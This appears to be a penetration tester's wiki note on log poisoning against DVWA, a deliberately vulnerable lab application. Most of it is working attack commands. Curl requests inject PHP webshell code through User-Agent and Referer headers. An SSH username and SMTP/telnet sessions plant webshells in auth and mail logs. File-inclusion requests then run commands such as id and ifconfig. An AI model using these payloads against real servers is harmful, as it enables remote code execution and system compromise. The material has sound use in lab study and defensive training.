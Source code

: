 # Manual

TODO: include conditions and screenshots for the attack vectors

## HTTP

### Access Log

Make a valid request with the code in the `User-Agent` header.

```
$ curl -H 'User-Agent' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local" -v
```

### Error Log

Make an invalid request, an invalid inclusion for example, with the suitable `Referer` header.

```
$ curl -H 'Referer' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local/urldoesnotexist" -v
```

#### PHP Sessions

TODO: Go to authentication page to include PHP code to poison error log then perform a file inclusion.

```
username=<?=phpinfo();?>&password=test
```

## SSH

SSH logs the username of each connection. Create a connection to SSH with the suitable username.

```
$ ssh '<?php system($_GET['c']); ?>'@dvwa.local
```

```
/var/log/auth.log&cmd=ifconfig
```

## SMTP

```
$ mail -s "<?php system($_GET['cmd']);?>" www-data@dvwa.local < /dev/null
```

Enumerate valid [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/Mail Server/SMTP|SMTP]] user accounts then poison the log with a webshell.

```
$ telnet dvwa.local 25

MAIL FROM:<test@email.com>
RCPT TO:<?php system($_GET['cmd']); ?>

Subject: This is a test
<?php system($_GET['cmd']);?>

.
```

Exploit it.

```
$ curl http://dvwa.local/index.php?page=/var/mail/www-data&cmd=id
```

---
## References

### Backlinks

- [[Log Poisoning]]